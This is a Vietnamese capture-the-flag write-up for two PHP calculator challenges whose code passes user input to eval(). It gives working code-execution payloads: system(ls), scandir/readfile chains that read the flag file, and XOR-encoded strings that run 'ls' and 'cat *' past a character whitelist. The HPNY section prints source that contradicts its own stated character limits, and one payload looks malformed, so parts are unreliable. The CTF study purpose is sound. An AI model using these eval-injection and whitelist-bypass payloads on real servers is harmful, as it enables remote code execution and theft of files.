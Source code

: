 # WEB
## HPNY
- Link tham khảo: https://tsublogs.wordpress.com/2018/12/13/wargame-code-breaking-com-solution/
- Source code:
```
 <!-- Enjoy Tsu's Super Calculator <3, Not Only + - * / but also many other operators <3 <3 <3 -->

<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
} 
```
- Đề bài chỉ cho phép sử dụng các kí tự từ 'a' đến 'z', '(', ')', '_' và '.'
- Do phần nội dung được nhập vào được thực thi bởi `eval()` nên có thể bị dính lỗi dạng code/command execution.
- Thử với `system(ls)`:
![system(ls)](./images/Selection_001.png)

- Thay vì sử dụng command execution, ta có thể sử dụng dạng code execution: `print_r(scandir(getcwd()))`
![scandir(getcwd())](./images/Selection_002.png)

- Lấy tên file flag: `print_r(next(array_reverse(scandir(getcwd()))))`
![get flag's filename](./images/Selection_003.png)

- Đọc nội dung flag: `readfile(next(array_reverse(scandir(getcwd()))))`
![flag](./images/Selection_004.png)

## super_calc
- Link tham khảo: https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/
- Source code:
```
<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"]))
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

- Đề bài chỉ cho phép sử dụng tập kí tự `['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '+', '-', '*', '/', '(', ')', "'", '.', '~', '^', '|', '&']`
- Có thể sử dụng system() hoặc dấu backtick để thực thi các lệnh hệ thống.
 - Liệt kê các file hệ thống (``ls``): `'0840'^'.*9.'^'~~~~'`
 - Đọc file (``cat *``): `0000000'^'.--880.'^'~~||(*~'`
